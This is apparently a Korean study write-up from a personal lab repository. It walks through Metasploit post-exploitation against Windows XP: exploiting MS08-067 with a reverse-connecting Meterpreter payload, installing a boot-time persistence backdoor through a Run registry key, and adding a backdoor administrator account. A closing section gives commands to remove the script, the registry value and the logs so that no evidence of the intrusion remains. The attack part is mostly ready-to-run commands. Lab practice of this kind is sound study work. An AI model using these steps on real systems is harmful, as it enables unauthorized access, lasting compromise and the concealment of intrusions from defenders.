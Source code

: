 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.  
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.  
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/Persistence/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  

### 2. BackDoor 계정만들기
이제 우리는 BackDoor를 할 수 있는 계정을 만든다음에 관리자의 권한을 부여해보는 연습을 해볼 것이다.
WindowXp에서 공격을 수행하고 난 이후의 시점부터 볼 것이다.  
다음의 명령어를 통해 미터프리터 세션을 열고 shell을 열어준다.  
**shell**  
**net user (원하는 이름) (원하는 비밀번호) /add**  
**net user**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%EC%83%9D%EC%84%B1.png)  
을 생성하고 이를 window Xp에서 보면 다음과 같은 결과가 나타나게 된다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8.png)  
또는 Kali에서 **net user** 명령어를 통해 확인이 가능하다.  

그러나 사진에서 보다싶이 제한된 권한을 가지고 있다.  
이를 adminstorator의 권한으로 올려주기 위해 다음과 같은 작업을 한다.  
**net localgroup administrators (계정이름) /add**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9.png)  
를 하고 다시 window에서 보면 다음과 같은 결과가 나타날 것이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9%ED%99%95%EC%9D%B8.png)  

만약 계정을 삭제하고 싶다면 다음의 명령어를 이용한다.
**net user (계정이름) (계정 비밀번호) /delete**  

**exit**  
**getsystem**  
**getuid**

이 명령어를 통해 시스템 권한과 권한이 얻어진것을 확인을 하고
다음의 명령어를 통해 시스템을 재부팅해본다.  
**ps**  
**migrate (explorer.exe 필자는 492)**  
**reboot**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EC%83%9D%EC%84%B1%ED%9B%84%20%EC%A2%85%EB%A3%8C%20%EC%A4%80%EB%B9%84.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%20%EC%9B%90%EA%B2%A9%EC%A2%85%EB%A3%8C.png)  
를 하면 windowXp가 정상적으로 재부팅이 되는 것을 볼 수 있다.
이후 시스템을 종료하고 다시 window에서 로그인화면을 보면 2가지의 계정이 생겼을 겻이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/WindowXp%EB%A1%9C%EA%B7%B8%EC%9D%B8%20%ED%99%94%EB%A9%B4.png)  

## 3. 흔적 제거
우리가 행한 BackDoor 공격은 해킹의 증거가 될 수 있기에 공격 컴퓨터에서 필요한 정보를 얻은 뒤에 반드시 Remove BackDoor과정을 통해 BackDoor를 제거해야한다.  
**진행과정**  
+ BackDoor Script제거
+ Registry 제거
+ Local File 정리  

### 첫번째 Script제거는 다음과 같이 한다.  
**rm "C:\WINDOWS\TEMP\OJugfnRcF.vbs"**  
**해당 경로 파일은 모두 다르므로 꼭 경로를 공격정보에서 확인하고 설정하세요.**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/%ED%9D%94%EC%A0%81%20%EC%A0%9C%EA%B1%B0/script%EC%A0%9C%EA%B1%B0.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/%ED%9D%94%EC%A0%81%20%EC%A0%9C%EA%B1%B0/window%20Xp%EC%97%90%EC%84%9C%20%EC%A0%9C%EA%B1%B0%EB%90%9C%20%EC%83%81%ED%83%9C.png)

### 두번째 Registry 제거는 다음과 같이 한다.  
**reg deleteval -k "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -v "TdZlRdIIUFP"**  
**이 역시 모든 공격마다 경로가 다르니 공격정보에서 확인하고 설정하세요.**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/%ED%9D%94%EC%A0%81%20%EC%A0%9C%EA%B1%B0/%EB%A0%88%EC%A7%80%EC%8A%A4%ED%8A%B8%EB%A6%AC%20%EC%A0%9C%EA%B1%B0.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/%ED%9D%94%EC%A0%81%20%EC%A0%9C%EA%B1%B0/Window%20Xp%EC%97%90%EC%84%9C%20%EB%A0%88%EC%A7%80%EC%8A%A4%ED%8A%B8%EB%A6%AC%20%EC%83%81%ED%83%9C.png)

### 세번째 로컬파일 정리
**cd /root/.msf4/logs/persistence**  
를 통해 해당 공간에 남아있는 파일을 **ls -al** 또는 **ls** (유닉스 명렁어)를 통해 확인 후  
**rm -rf ARAD4228_20220201.~**  
파일을 제거하면 마무리 됩니다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp/%ED%9D%94%EC%A0%81%20%EC%A0%9C%EA%B1%B0/%EB%A1%9C%EC%BB%AC%20%ED%8C%8C%EC%9D%BC%EC%A0%95%EB%A6%AC.png)
